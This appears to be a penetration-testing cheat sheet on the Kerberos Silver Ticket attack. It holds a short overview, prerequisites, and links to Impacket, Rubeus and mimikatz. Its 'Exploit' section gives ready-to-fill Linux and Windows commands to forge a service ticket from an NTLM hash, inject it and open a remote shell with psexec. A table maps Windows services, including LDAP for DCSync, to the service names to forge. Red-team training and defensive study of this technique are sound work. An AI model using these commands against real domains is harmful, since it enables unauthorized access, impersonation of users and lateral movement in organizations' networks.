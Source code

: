# Overview
A Silver Ticket attack involves forging a valid **service ticket (TGS)** for a specific service within a [[88 - Kerberos]] environment, using the service account's *NTLM* hash. Once crafted, the forged ticket allows an attacker to authenticate to the targeted service as any user, often bypassing domain controllers entirely. This technique is limited to individual services but offers stealthy, long-term access if the service account hash remains unchanged.

## Prerequisites
- Having the NTLM hash of a service account, such as a computer account, to forge a **Ticket Granting Service (TGS) ticket**.

## Tools
- [Impacket - ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
- [Impacket - psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
- [Rubeus Release](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)


# Exploit
## Linux
```bash
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>

export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache

python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```

## Windows
```powershell
# Using Rubeus
## /ldap option is used to get domain data automatically
## With /ptt we already load the ticket in memory
rubeus.exe asktgs /user:<USER> [/rc4:<HASH> /aes128:<HASH> /aes256:<HASH>] /domain:<DOMAIN> /ldap /service:cifs/domain.local /ptt /nowrap /printcmd

# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```


# Services
| Service Type                                | Service Silver Tickets          |
|---------------------------------------------|---------------------------------|
| WMI                                         | HOST, RPCSS                     |
| PowerShell Remoting                         | HOST, HTTP, WSMAN (depending on OS), RPCSS |
| WinRM                                       | HOST, HTTP (sometimes just WINRM) |
| Scheduled Tasks                             | HOST                            |
| Windows File Share, also psexec             | CIFS                            |
| LDAP operations, including DCSync           | LDAP                            |
| Windows Remote Server Administration Tools  | RPCSS, LDAP, CIFS               |
| Golden Tickets                              | krbtgt                          |


# References
- [https://www.crowdstrike.com/en-gb/cybersecurity-101/cyberattacks/silver-ticket-attack/](https://www.crowdstrike.com/en-gb/cybersecurity-101/cyberattacks/silver-ticket-attack/)
- [https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html)
- [https://www.netwrix.com/silver_ticket_attack_forged_service_tickets.html](https://www.netwrix.com/silver_ticket_attack_forged_service_tickets.html)
- [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)